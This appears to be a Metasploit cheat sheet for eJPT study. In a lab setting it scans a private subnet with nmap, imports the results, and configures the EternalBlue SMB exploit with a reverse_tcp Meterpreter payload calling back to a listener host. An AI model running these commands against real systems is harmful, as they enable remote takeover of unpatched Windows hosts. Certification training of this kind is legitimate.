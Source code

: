 Start database and Metasploit:
```bash
# Start PostgreSQL (Kali)
sudo service postgresql start

# Initialize MSF DB (if not already)
msfdb init

# Launch msfconsole quietly
msfconsole -q
```

Check DB and set up workspace:
```bash
db_status
workspace
workspace -a eJPT
workspace eJPT
```

Import scan results (preferred) or run nmap externally:
```bash
# Run Nmap externally and save XML
nmap -sV -O -T4 -oA netscan 192.168.56.0/24

# Import results into MSF
db_import netscan.xml

# View parsed assets
hosts
services
```

Enumerate and inspect modules:
```bash
# Count/list categories (long output)
show exploits
show auxiliary
show payloads

# Focused search examples
search type:exploit smb windows
search cve:2017-0144

# Inspect a module
use exploit/windows/smb/ms17_010_eternalblue
info
show options
show advanced
show targets
```

Configure datastore and run:
```bash
# Global defaults (persist with 'save')
setg LHOST 10.10.14.5
setg LPORT 4444
setg VERBOSE true

# Module-specific
set RHOSTS 192.168.56.101
set RPORT 445
show payloads

# Example staged Meterpreter
set PAYLOAD windows/x64/meterpreter/reverse_tcp

```